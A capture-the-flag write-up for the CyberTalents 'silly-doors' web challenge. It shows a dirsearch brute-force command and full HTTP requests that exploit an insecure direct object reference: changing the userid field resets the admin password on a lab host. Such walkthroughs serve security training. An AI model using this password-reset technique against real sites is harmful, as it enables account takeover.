






# Solve silly-doors
#### https://cybertalents.com/challenges/web/silly-doors


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

Review all the Directories nothing interesting except `/js` and `signup.php`
Also the `PHPSESSID=a0828816c5b25c1f960cfe808fbd131f` is constant

```js
HTTP/1.1 200 OK
Server: nginx/1.25.2
Date: Tue, 18 Jun 2024 21:48:08 GMT
Content-Type: application/javascript
Content-Length: 1418
Connection: close
Last-Modified: Mon, 24 Aug 2020 16:51:06 GMT
ETag: "58a-5ada264807280-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding


(function ($) {
    "use strict";

    /*==================================================================
    [ Validate ]*/
    var input = $('.validate-input .input100');

    $('.validate-form').on('submit',function(){
        var check = true;

        for(var i=0; i<input.length; i++) {
            if(validate(input[i]) == false){
                showValidate(input[i]);
                check=false;
            }
        }

        return check;
    });


    $('.validate-form .input100').each(function(){
        $(this).focus(function(){
           hideValidate(this);
        });
    });

    function validate (input) {
        if($(input).attr('type') == 'email' || $(input).attr('name') == 'email') {
            if($(input).val().trim().match(/^([a-zA-Z0-9_\-\.]+)@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.)|(([a-zA-Z0-9\-]+\.)+))([a-zA-Z]{1,5}|[0-9]{1,3})(\]?)$/) == null) {
                return false;
            }
        }
        else {
            if($(input).val().trim() == ''){
                return false;
            }
        }
    }

    function showValidate(input) {
        var thisAlert = $(input).parent();

        $(thisAlert).addClass('alert-validate');
    }

    function hideValidate(input) {
        var thisAlert = $(input).parent();

        $(thisAlert).removeClass('alert-validate');
    }
    
    

})(jQuery);
```



### Try to signup  an account




### Try change password 


### Try IDOR
Change the user ID to 0


The requset to change password is 
```http
POST /profile/change.php HTTP/1.1
Host: wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com/profile/settings.php
Cookie: PHPSESSID=a0828816c5b25c1f960cfe808fbd131f; sessionid=54f7a053539cf0edd3738fda6fc12417; userid=6
Upgrade-Insecure-Requests: 1

newpass=test&userid=6&newrepass=test

```

Change userid to admin `1` 

```http
POST /profile/change.php HTTP/1.1
Host: wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com/profile/settings.php
Cookie: PHPSESSID=a0828816c5b25c1f960cfe808fbd131f; sessionid=54f7a053539cf0edd3738fda6fc12417; userid=1
Upgrade-Insecure-Requests: 1

newpass=test&userid=1&newrepass=test

```
We got 200 ok in the response 

Try to login with admin and the new password `test` 



>Find More on ==> github.com/MedhatHassan 
